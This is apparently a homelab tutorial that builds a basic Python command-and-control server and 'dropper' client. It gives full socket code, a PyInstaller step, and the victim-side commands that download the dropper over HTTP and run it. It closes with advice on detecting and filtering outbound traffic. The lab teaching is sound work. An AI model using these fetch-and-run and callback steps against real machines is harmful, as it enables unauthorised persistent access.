


# Attack 7 — Creating a C2 Server

## Prerequisites

Before starting, I made sure the following were in place:

1. VirtualBox or VMware Workstation Pro installed
2. My `project-x-linux-client` is turned on and configured
3. My `project-x-attacker` is turned on
4. Both VMs are on the `project-x-network` NAT Network (or VMNet8 NAT for VMware)

## Scenario

In this scenario, I assumed I had already gained a foothold as the attacker (`project-x-attacker`) — or simulated one by assuming my victim had been tricked into downloading a file. My goal now was persistence and control: I built a lightweight C2 server in Python, compiled a client-side "dropper" that phones home to my attacker machine, and deployed it to `project-x-linux-client`. Once the dropper ran, the victim machine established a connection back to my C2 server — giving me a persistent communication channel to issue commands, exfiltrate data, or pivot further into the network.

## Likeliness Meter


**Rating: High**

If a host or endpoint gets compromised, attackers will almost certainly drop a backdoor to achieve persistence. C2 infrastructure is a core component of virtually every advanced threat actor's playbook — from nation-state APTs to ransomware groups to opportunistic cybercriminals. The MITRE ATT&CK framework catalogues dozens of C2 techniques, and the detection of unauthorised callback traffic is one of the most valuable capabilities a network security team can develop. Once a C2 channel is established, the attacker maintains control over the victim machine even if the initial access vector is patched or closed.

## Background: Command and Control (C2) Servers

A **Command and Control (C2) server** is a centralised system used by an attacker to maintain communication with compromised machines — also referred to as bots, agents, or implants — within a victim network.

The basic architecture is straightforward:

1. The attacker controls the **C2 server** — a machine listening for incoming connections
2. A **client** (the malware or dropper) is installed on the victim machine
3. The victim machine **calls back** to the C2 server, typically over a common protocol (HTTPS, DNS, HTTP) to blend in with normal traffic
4. The attacker uses the C2 server to send commands to the victim and receive output

Why do attackers use C2 servers instead of maintaining direct access? Because direct connections are fragile — if the initial access vector (a shell, a backdoor port) is closed, access is lost. A C2 client that periodically calls home is resilient: it survives reboots, reconnects automatically, and can be designed to blend into normal outbound traffic patterns.

Real-world C2 frameworks like **Cobalt Strike**, **Metasploit**, and **Sliver** are far more sophisticated than what I'm building here — they include encrypted channels, staged payloads, anti-detection techniques, and full feature sets for post-exploitation. What I built is intentionally basic — the point was to understand the underlying concept, not to replicate a production-grade framework.

## Security Implications

C2 infrastructure gives me, the attacker:

- **Persistent access** — Even if the initial compromise vector is patched or discovered, my C2 client keeps calling home
- **Remote command execution** — I can run arbitrary commands on the victim machine at any time
- **Data exfiltration** — Files, credentials, and keystrokes can be sent back to my C2 server
- **Lateral movement coordination** — I can use the C2 server to orchestrate attacks against other machines on the same network from my already-compromised host
- **Stealth** — C2 traffic over common protocols (HTTP/HTTPS) blends in with normal outbound web traffic, making detection harder

**The detection opportunity**: Abnormal outbound connections are the primary signal. A machine making regular, periodic connections to an unknown external IP — especially on an unexpected port, or at unusual hours — is a red flag. Network monitoring tools and SIEM rules that baseline normal outbound traffic and alert on anomalies are the most effective detection layer. Egress filtering (blocking all outbound traffic except known-good destinations) is also a strong preventive control.

## Part 1 — Build the C2 Server

I ran all development steps in this section on `project-x-attacker` (Kali Linux).

### Step 1 — Create the Project Directory

I navigated to the home directory and created a new folder for my C2 code:

```bash
cd ~ && mkdir evilc2 && cd evilc2
```

### Step 2 — Write the Server Handler (server.py)

The server handler is the C2 server itself — it listens on a port for incoming connections from victim machines.

I created the file:

```bash
nano server.py
```

Full `server.py` code:

```python
# server.py
import socket

HOST = '0.0.0.0'  # Listen on all interfaces
PORT = 4444       # Port to listen on

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server:
    server.bind((HOST, PORT))
    server.listen(1)
    print(f"[*] Listening on {HOST}:{PORT}")

    conn, addr = server.accept()
    with conn:
        print(f"[+] Connection from {addr}")
        conn.sendall(b"Hello, fellow victim\n")  # Send message to the client
```

A quick breakdown of what each part does:

- `HOST = '0.0.0.0'` — listen for incoming connections on all network interfaces
- `PORT = 4444` — the port the C2 server listens on; chosen to be above 1000 and not a commonly blocked port
- `socket.socket(socket.AF_INET, socket.SOCK_STREAM)` — creates a TCP socket using IPv4
- `server.listen(1)` — sets the server to accept one pending connection at a time
- `server.accept()` — blocks until a victim connects, then returns the connection object
- `conn.sendall(...)` — sends a message back to the connected victim machine


### Step 3 — Write the Client Handler (client.py)

The client handler is the dropper — the file that gets deployed to the victim machine and calls home to the C2 server.

I created the file:

```bash
nano client.py
```

>  Before saving, I made sure to update `SERVER_IP` to match my `project-x-attacker` machine's actual IP address. I ran `ip a` to check it.

Full `client.py` code:

```python
# client.py
import socket

SERVER_IP = '10.0.0.50'  # Change to your attacker machine's IP
PORT = 4444

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((SERVER_IP, PORT))
    data = s.recv(1024)
    print(data.decode())
```

A quick breakdown:

- `SERVER_IP` — my attacker's IP address; the victim machine will call back to this address
- `s.connect(...)` — initiates the outbound TCP connection to the C2 server
- `s.recv(1024)` — receives up to 1024 bytes of data from the server
- `data.decode()` — decodes the received bytes and prints the message to the terminal


### Step 4 — Compile the Client into an Executable (Optional)

In a real attack, the dropper needs to run on the victim's operating system. Since I was targeting `project-x-linux-client` (Ubuntu), Python was already available — so I could deploy `client.py` directly.

For reference, if I were targeting a **Windows machine**, I'd need to compile `client.py` into a `.exe` using **PyInstaller**:

```bash
pip install pyinstaller
pyinstaller --onefile client.py
```

The compiled binary would appear in the `/dist` directory. This is why real-world malware is often written in languages like Go, C, or Rust — they compile natively to any target OS without needing an interpreter installed on the victim machine.

**Since I was targeting Linux, I skipped the compilation step and deployed `client.py` directly.**

## Part 2 — Deploy to project-x-linux-client

### Step 5 — Serve the Client File via HTTP

On `project-x-attacker`, I navigated to the `evilc2` directory and started a Python HTTP server so the victim machine could download the dropper:

```bash
cd ~/evilc2
python -m http.server 8000
```



### Step 6 — Start the C2 Server Listener

I opened a **new terminal tab** on `project-x-attacker`. I navigated to `evilc2`, gave `server.py` executable permissions, and started it:

```bash
cd ~/evilc2
chmod +x server.py
python3 server.py
```

The terminal printed `[*] Listening on 0.0.0.0:4444` and waited for an incoming connection.

### Step 7 — Download and Execute the Dropper on the Victim Machine

On `project-x-linux-client`, I opened a terminal. I navigated to the home directory and downloaded `client.py` from my attacker's HTTP server:

```bash
cd ~
wget http://10.0.0.50:8000/client.py
```

I made the file executable and ran it:

```bash
chmod +x client.py
python3 client.py
```

This simulated the victim executing what they think is a legitimate file — but is actually my C2 dropper calling home.



### Step 8 — Confirm the Connection on the C2 Server

I switched back to `project-x-attacker` and looked at the terminal running `server.py`.

I could see the connection logged:

```
[+] Connection from ('10.0.0.17', XXXXX)
```


The C2 channel was established. My victim machine connected to my attacker's C2 server, received a command (the "Hello" message), and printed the output — a basic but complete proof-of-concept for command and control communication.

## Conclusion

What I built here is about as minimal as a C2 server gets — a Python socket listener and a client that connects once, receives a string, and exits. Real-world C2 frameworks are orders of magnitude more sophisticated: encrypted channels, jitter timers to randomise callback intervals, proxy-aware clients, modular command handlers, and evasion techniques designed to defeat EDR and network monitoring tools.

But the underlying principle is identical. An implant on a victim machine reaches out to an attacker-controlled server. The attacker sends instructions. The victim executes them and sends back output. That loop — compromised machine phones home, attacker issues commands, victim executes — is the backbone of every major post-exploitation framework in use today.

The key takeaway from the blue team side: **monitor your outbound traffic**. A machine making regular connections to an unfamiliar IP on port 4444 (or any non-standard port) is a strong indicator of C2 activity. Baseline your environment's normal outbound traffic patterns, alert on anomalies, and consider egress filtering as a preventive control.

---

*And with that, this wraps up the final writeup for the cybersecurity ProjectX homelab series! Thank you for following along as I built, secured, and attacked this environment.*
